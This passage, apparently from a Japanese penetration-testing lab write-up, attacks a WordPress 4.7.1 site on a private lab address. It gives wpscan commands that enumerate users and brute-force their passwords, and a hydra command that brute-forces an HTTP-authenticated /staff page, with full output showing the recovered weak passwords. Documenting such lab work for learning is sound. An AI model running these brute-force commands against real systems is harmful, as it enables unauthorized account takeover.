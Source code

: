 どうやらWordPress4.7.1が導入されているらしい．
では管理者ユーザを含む登録者の情報をチェック．

```
# wpscan -u http://192.168.20.16/wp/ -e u
           ：
[+] Enumerating usernames …
[+] Identified the following 4 user/s:
+—-+——–+——–+
| Id | Login  | Name   |
+—-+——–+——–+
|1  | wproot | wproot |
| 2  | user01 | user01 |
| 3  | user02 | user02 |
| 4  | user03 | user03 |
+—-+——–+——–+
```

4つのアカウントが登録されていることを発見．うちID#1が管理者のはず．
この4つのアカウントをユーザリストファイル（/root/user.txt）に記載して，事前に用意したパスワードファイル（/root/password.txt）を用いて総当たり攻撃（ブルートフォースアタック）を仕掛けてパスワードを発見できるか試してみよう．

```
# wpscan -u http://192.168.20.16/wp/ -w /root/password.txt –usernames /root/user.txt
：
[+] Starting the password brute forcer
[+] Starting the password brute forcer
：
+—-+——–+——+———-+
| Id | Login  | Name | Password |
+—-+——–+——+———-+
|    | wproot |      | password |
|    | user01 |      | aaa      |
|    | user02 |      | abc      |
|    | user03 |      | abc123   |
+—-+——–+——+———-+
```

ということで，「世間でよく使われるパスワード」を指定していると比較的簡単にパスワードハックされちゃいます．

さて…ここまで無警戒なサーバ運用者なら，認証ページ /staff でもWordPressで使用しているユーザとパスワードをそのまま認証でも使用している可能性が高いので認証ページも攻撃してみよう．
同じuser.txtとpassword.txtを使って hydra によるブルートフォースをかけてみる．

```
# hydra -L /root/user.txt -P /root/password.txt 192.168.20.16 http-get /staff
Hydra v8.6 (c) 2017 by van Hauser/THC – Please do not use in military or secret service organizations, or for illegal purposes.Hydra (http://www.thc.org/thc-hydra) starting at 2017-11-07 09:09:51
[WARNING] Restorefile (you have 10 seconds to abort… (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14184 login tries (l:4/p:3546), ~887 tries per task
[DATA] attacking http-get://192.168.20.16:80//staff
[STATUS] 4643.00 tries/min, 4643 tries in 00:01h, 9541 to do in 00:03h, 16 active
[80][http-get] host: 192.168.20.16 login: user01 password: aaa
[80][http-get] host: 192.168.20.16 login: user02 password: abc
[80][http-get] host: 192.168.20.16 login: user03 password: abc123
1 of 1 target successfully completed, 3 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-07
```
